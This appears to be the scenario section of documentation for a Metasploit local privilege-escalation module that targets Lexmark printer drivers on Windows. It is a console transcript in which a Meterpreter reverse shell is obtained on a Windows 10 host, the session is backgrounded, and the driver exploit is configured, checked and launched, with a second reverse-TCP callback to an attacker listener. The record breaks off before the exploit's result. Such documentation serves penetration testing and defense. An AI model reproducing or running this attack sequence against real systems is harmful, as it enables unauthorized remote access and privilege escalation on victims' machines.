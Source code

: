 ## Scenarios

### Lexmark Printer Software G2 XL v2.2.0.0

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.9
lhost => 10.0.0.9
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.9:1270
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:51814) at 2021-08-10 18:07:31 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/lexmark_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/lexmark_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set lhost 10.0.0.9
lhost => 10.0.0.9
msf6 exploit(windows/local/lexmark_driver_privesc) > set lport 1271
lport => 1271
msf6 exploit(windows/local/lexmark_driver_privesc) > check

[*] Lexmark driver published at oem3.inf
[*] Lexmark driver published at oem12.inf
[*] Found 2 possible options:
[*] 	Lexmark Printer Software G2
[*] 	Lexmark Printer Software G2 XL
[*] No user provided DRIVERNAME. Defaulting to "Lexmark Printer Software G2"
[*] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
msf6 exploit(windows/local/lexmark_driver_privesc) > set DRIVERNAME Lexmark Printer Software G2 XL
DRIVERNAME => Lexmark Printer Software G2 XL
msf6 exploit(windows/local/lexmark_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.9:1271
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Lexmark driver published at oem3.inf
[*] Lexmark driver published at oem12.inf
[*] Found 2 possible options:
[*] 	Lexmark Printer Software G2
[*] 	Lexmark Printer Software G2 XL
```